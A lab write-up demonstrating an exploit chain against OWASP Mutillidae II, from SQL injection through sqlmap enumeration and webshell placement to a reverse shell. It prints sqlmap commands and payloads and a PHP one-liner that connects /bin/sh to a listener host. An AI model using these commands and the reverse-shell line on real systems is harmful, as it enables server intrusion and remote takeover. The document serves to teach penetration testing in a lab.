# SQLi: From Injection to Webshell and Reverse Shell

[🇮🇩 Read in Indonesia](sqli-webshell-reverse-shell-id.md)

# What is SQL Injection?

**SQL Injection (SQLi)** is a cybersecurity vulnerability where an attacker can insert or manipulate malicious SQL queries through application input.

This occurs because the application does not perform adequate validation or sanitization of user input before incorporating it into a database query.

If successfully exploited, an attacker may be able to read, modify, or delete sensitive data, and in some cases, potentially gain control over the server.

# Types of SQL Injection

<details>
<summary>Some common forms and variations of SQL Injection include:</summary>

1. In-band SQL Injection
2. Union-based SQLi
3. Error-based SQLi
4. Blind SQL Injection
5. Boolean-based Blind SQLi
6. Time-based Blind SQLi
7. Out-of-band (OOB) SQLi
8. Stacked Queries / Piggy-backed Queries
9. First-order SQLi
10. Second-order SQLi
11. GET-based SQLi
12. POST-based SQLi
13. Cookie-based SQLi
14. HTTP Header-based SQLi
15. User-Agent SQLi
16. Referer-based SQLi
17. JSON-based SQLi
18. XML-based SQLi
19. Authentication Bypass SQLi
20. Database-specific SQLi
21. Numeric SQL Injection
22. String-based SQL Injection
23. Arithmetic-based SQL Injection
24. ORDER BY SQL Injection
25. GROUP BY SQL Injection
26. HAVING SQL Injection
27. WHERE-clause SQL Injection
28. INSERT-based SQL Injection
29. UPDATE-based SQL Injection
30. DELETE-based SQL Injection
31. LIMIT/OFFSET SQL Injection
32. Subquery SQL Injection
33. Nested Query SQL Injection
34. Stored Procedure SQL Injection
35. Dynamic SQL Injection
36. ORM/Query Builder SQL Injection
37. GraphQL SQL Injection
38. Multipart/Form-data SQL Injection
39. Path Parameter SQL Injection
40. WebSocket SQL Injection
41. API Parameter SQL Injection
42. HTTP Parameter Pollution SQLi
43. Encoded SQL Injection
44. WAF-bypass SQL Injection
45. Comment-based SQL Injection
46. Case-manipulation SQL Injection
47. Whitespace-manipulation SQL Injection
</details>

---

# SQLi and Its Impact

Not every SQL Injection can be used to execute commands on the operating system. This capability depends on several conditions, such as:

* DBMS in use

* Database account privileges

* Database configuration

* Available DBMS features or functions

* Filesystem permissions

* Permissions of the user running the service

* Web server and application runtime configuration

Under certain conditions, SQLi can develop from query manipulation into the ability to interact with the filesystem or execution mechanisms on the server.

In this demonstration, I attempt to access SQL Injection and then place and execute a Webshell before establishing a Reverse Shell foothold.

# What is a Webshell?

A Webshell is a file placed on a server (for example, through an SQL Injection vulnerability) to provide remote control access to the target system.

# What is a Reverse Shell?

A Reverse Shell is a technique where the target machine establishes an outbound connection to the pentester's machine to obtain an interactive shell. It is not a type of vulnerability, but rather a later stage after SQLi has successfully provided command execution capability.

# Root Cause

In this demonstration, SQL Injection becomes the entry point due to a weakness in the SQL statement. The exploitation is then continued by placing a Webshell as a foothold, which is subsequently used to obtain a Reverse Shell.

Testing flow:

```text
SQL Injection

      ↓

Manipulate SQL Query

      ↓

Interact with Database

      ↓

Write Webshell / Execute Command

      ↓

Webshell

      ↓

OS Command Execution

      ↓

Reverse Shell

      ↓

Outbound Connection

      ↓

Interactive Shell
```

# Lab Topology

For this demonstration, I use a simple VMware-based lab environment.

| Role           | Description                   | IP Address     |
| :------------- | :---------------------------- | :------------- |
| **Attacker**   | Kali Linux                    | `10.10.10.149` |
| **Target Web** | Ubuntu Server (Mutillidae II) | `10.10.10.2`   |

```text
┌──────────────────────────────────────────────┐
│              LAB — 10.10.10.0/24             │
│                                              │
│  ┌──────────────┐      ┌──────────────────┐  │
│  │ Kali Linux   │─────►│ Ubuntu Server    │  │
│  │ 10.10.10.149 │      │ 10.10.10.2       │  │
│  │ Listener:3001│◄─────│ Mutillidae II    │  │
│  └──────────────┘      │ SQLi → Web Shell │  │
│                        └────────┬─────────┘  │
│                                 │            │
│                                 └─ Reverse   │
│                                    Shell     │
└──────────────────────────────────────────────┘
```

# Demonstration

Here I use Burp Suite to intercept the HTTP request, then insert a single quote character (`'`) into the `John` value of the `firstname` parameter, resulting in `firstname=John'`.



The request produces a response of `HTTP/1.1 500 Internal Server Error`, which indicates that the input caused an unexpected server-side error.

To validate the potential SQL Injection, the input is tested again using `'--+-` on the `firstname` parameter.



The input `'--+-` is used to manipulate the SQL statement, where `'` is used to close the string, while `--` is used to start an SQL comment. The `+` character represents a space in URL-encoded form.

In general, the following representations can be used during validation testing:

| Category          | Representation | Function                                                         |
| ----------------- | -------------- | ---------------------------------------------------------------- |
| **String**        | `'`            | Closes a string                                                  |
| **String**        | `"`            | String/identifier delimiter, depending on the DBMS               |
| **Comment**       | `--`           | Starts an SQL comment                                            |
| **Comment**       | `#`            | SQL comment in MySQL/MariaDB                                     |
| **Comment**       | `/* */`        | SQL block comment                                                |
| **Logic**         | `AND`          | Condition must be **TRUE + TRUE**                                |
| **Logic**         | `OR`           | One of the conditions must be **TRUE**                           |
| **Comparison**    | `=`            | Compares values                                                  |
| **Comparison**    | `<>`, `!=`     | Not equal to                                                     |
| **Grouping**      | `()`           | Groups expressions                                               |
| **URL Encoding**  | `%27`          | Representation of `'`                                            |
| **URL Encoding**  | `%22`          | Representation of `"`                                            |
| **URL Encoding**  | `%23`          | Representation of `#`                                            |
| **URL Encoding**  | `%2D%2D`       | Representation of `--`                                           |
| **URL Encoding**  | `%20`          | Representation of a space                                        |
| **Form Encoding** | `+`            | Representation of a space in `application/x-www-form-urlencoded` |

The reconnaissance phase here focuses on determining **how far SQL Injection can provide access to the system**, starting from the database and available data and moving toward possible access to files and the operating system.

Load the request first, focusing on the request that has been confirmed as SQL Injection.



Then continue with access testing.

Run:



```bash
sqlmap -r owasp.hacking --dbs
```

Injectable automation result.



The image and list below show characteristic sqlmap payloads that are tested, focusing on:

* **Boolean-based blind** → SQLi validated through **TRUE/FALSE conditions** and differences in the application's response.

* **Time-based blind** → SQLi validated through **response-time differences**, for example by causing a `5`-second delay in the query.

* **UNION-based** → SQLi that uses **`UNION SELECT`** to combine query results so that data can appear in the application response.

```bash
Parameter: firstname (POST)

    Type: boolean-based blind

    Title: AND boolean-based blind - WHERE or HAVING clause

    Payload: firstname=John' AND 6904=6904-- wURt&submit=Submit

    Type: time-based blind

    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)

    Payload: firstname=John' AND (SELECT 2883 FROM (SELECT(!SLEEP(5)))KsnZ)-- Waej&submit=Submit

    Type: UNION query

    Title: Generic UNION query (NULL) - 1 column

    Payload: firstname=John' UNION ALL SELECT CONCAT(0x716a786271,0x4270724f4a6c65797a59775255656a4e485464776b51496d4c4372547559545662676950614a6858,0x71786b6a71)-- -&submit=Submit
```

This payload successfully extracts the database list.



Next, reconnaissance is focused on determining **how much access can be obtained through SQL Injection**, starting from the database user and privileges and moving toward possible file, web, operating system, and OOB access.

The following targets are examined:

* **User & Privilege** — accounts, DBA status, and administrative privileges.

* **CRUD & Database** — database operations and management.

* **File & Web** — filesystem access, webroot, and possible Webshell placement.

* **Execution & OS** — function, command, or shell execution.

* **Access & OOB** — credentials, sensitive data, and possible callback connections.



```bash
sqlmap -r owasp.hacking --current-user --users --privileges --is-dba
```

The command produces several important pieces of information that can be collected in preparation for the next stage.









For example, the DBA status is true, followed by the database users, which can be used for mapping the target database (with the focus on root as the highest level of access).

In this lab environment, the exposure is through a regular-privileged user, but it is possible to perform create, update, and delete operations as well as upload a file to the Webshell.

The most important step for Webshell escalation is finding an exposed upload directory.



Depending on the target environment, the location may be found directly through directory listing (if enabled by default), by tracing endpoint responses, or through the browser's view-source location.

The purpose of identifying this location is to determine where the Webshell can be placed.



A Webshell can be accessed when the server-side stack is capable of executing the server-side code placed by the attacker.

Here I continue the next stage by establishing a Reverse Shell.

The Webshell is created through sqlmap using:



```bash
sqlmap -r owasp.hacking --flush-session --skip-waf --os-shell
```

Then continue using the location identified earlier, assuming that the location is a publicly accessible file location.



Here we create another foothold for the PHP shell by inserting the program code.



Then test whether the Webshell created through `os-shell` can execute a command.

```text
id
```

After that, continue by creating the Reverse Shell foothold.

```bash
php -r '$s=fsockopen("10.10.10.1",4002);proc_open("/bin/sh",[$s,$s,$s],$p);'
```

Here, the PHP code opens a shell connection toward the target specified in the command, followed by opening `nc` in the terminal.



The result is a shell obtained by leveraging **SQL Injection → Webshell → Reverse Shell** as the final foothold.

# Conclusion

This demonstration shows how SQL Injection can become an initial entry point that develops into operating-system access. The process starts with SQL Injection validation, followed by database and privilege enumeration, then leveraging filesystem access to place a Webshell, and finally obtaining a Reverse Shell.

This flow shows that the impact of SQL Injection is not limited to database manipulation or data extraction. Under certain conditions, a combination of database privileges, DBMS configuration, filesystem access, and application configuration can allow escalation from **SQL Injection → Webshell → OS Command Execution → Reverse Shell**.

All testing was performed in a lab environment to understand the exploitation chain and the level of access that can be obtained through SQL Injection.

# References

* **OWASP – SQL Injection**

  [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection?utm_source=chatgpt.com)

* **OWASP – SQL Injection Prevention Cheat Sheet**

  [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html?utm_source=chatgpt.com)

* **PortSwigger – SQL Injection**

  [PortSwigger Web Security Academy – SQL Injection](https://portswigger.net/web-security/sql-injection?utm_source=chatgpt.com)

* **sqlmap – Automatic SQL Injection and Database Takeover Tool**

  [sqlmap](https://sqlmap.org/?utm_source=chatgpt.com)

* **RevShells – Reverse Shell Generator**

  [RevShells](https://www.revshells.com/?utm_source=chatgpt.com)

* **OWASP Mutillidae II**

  [OWASP Mutillidae II](https://github.com/webpwnized/mutillidae?utm_source=chatgpt.com)

* **MITRE ATT&CK – Command and Scripting Interpreter**

  [MITRE ATT&CK T1059](https://attack.mitre.org/techniques/T1059/?utm_source=chatgpt.com)

---

Thank you.
